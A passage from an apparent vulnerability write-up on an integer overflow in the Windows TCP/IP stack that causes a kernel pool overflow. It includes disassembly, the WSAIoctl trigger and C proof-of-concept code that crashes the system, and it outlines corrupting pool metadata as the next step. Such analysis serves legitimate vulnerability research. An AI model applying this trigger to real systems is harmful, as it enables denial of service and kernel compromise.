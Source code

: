 So basically the flaw is merely an integer overflow that triggers a pool overflow. 

    :::text
    IppSortDestinationAddresses(x,x,x)+29   imul    eax, 1Ch
    IppSortDestinationAddresses(x,x,x)+2C   push    esi
    IppSortDestinationAddresses(x,x,x)+2D   mov     esi, ds:__imp__ExAllocatePoolWithTag@12 
    IppSortDestinationAddresses(x,x,x)+33   push    edi
    IppSortDestinationAddresses(x,x,x)+34   mov     edi, 73617049h
    IppSortDestinationAddresses(x,x,x)+39   push    edi   
    IppSortDestinationAddresses(x,x,x)+3A   push    eax  
    IppSortDestinationAddresses(x,x,x)+3B   push    ebx           
    IppSortDestinationAddresses(x,x,x)+3C   call    esi ; ExAllocatePoolWithTag(x,x,x) 

You can reach this code using a *WSAIoctl* with the code *SIO_ADDRESS_LIST_SORT* using a call like this :

    :::text
    WSAIoctl(sock, SIO_ADDRESS_LIST_SORT, pwn, 0x1000, pwn, 0x1000, &cb, NULL, NULL)

You have to pass the function a pointer to a *SOCKET_ADDRESS_LIST* (*pwn* in the example). This *SOCKET_ADDRESS_LIST* contains an *iAddressCount* field and *iAddressCount* *SOCKET_ADDRESS* structures. With a high *iAddressCount* value, the integer will wrap, thus triggering the wrong-sized allocation.  We can almost write anything in those structures. There are only two limitations : 

    :::text
    IppFlattenAddressList(x,x)+25   lea     ecx, [ecx+ebx*8]
    IppFlattenAddressList(x,x)+28   cmp     dword ptr [ecx+8], 1Ch
    IppFlattenAddressList(x,x)+2C   jz      short loc_4DCA9 
    
    IppFlattenAddressList(x,x)+9C   cmp     word ptr [edx], 17h
    IppFlattenAddressList(x,x)+A0   jnz     short loc_4DCA2

The copy will stop if those checks fail. That means that each *SOCKET_ADDRESS* has a length of 0x1c and that each *SOCKADDR* buffer pointed to by the socket address begins with a 0x17 byte. Long story short :

  * Make the multiplication at *IppSortDestinationAddresses+29* overflow
  * Get a non-paged pool chunk at *IppSortDestinationAddresses+3e* that is too little
  * Write user controlled memory to this chunk in *IppFlattenAddressList+67* and overflow as much as you want (provided that you take care of the 0x1c and 0x17 bytes)

The code below should trigger a BSOD. Now the objective is to place an object after our vulnerable object and modify pool metadata. 

    :::text
    WSADATA wd = {0};
    SOCKET sock = 0;
    SOCKET_ADDRESS_LIST *pwn = (SOCKET_ADDRESS_LIST*)malloc(sizeof(INT) + 4 * sizeof(SOCKET_ADDRESS));
    DWORD cb;
    
    memset(buffer,0x41,0x1c);
    buffer[0] = 0x17;
    buffer[1] = 0x00;
    sa.lpSockaddr = (LPSOCKADDR)buffer;
    sa.iSockaddrLength = 0x1c;
    pwn->iAddressCount = 0x40000003;
    memcpy(&pwn->Address[0],&sa,sizeof(_SOCKET_ADDRESS));
    memcpy(&pwn->Address[1],&sa,sizeof(_SOCKET_ADDRESS));
    memcpy(&pwn->Address[2],&sa,sizeof(_SOCKET_ADDRESS));
    memcpy(&pwn->Address[3],&sa,sizeof(_SOCKET_ADDRESS));
    
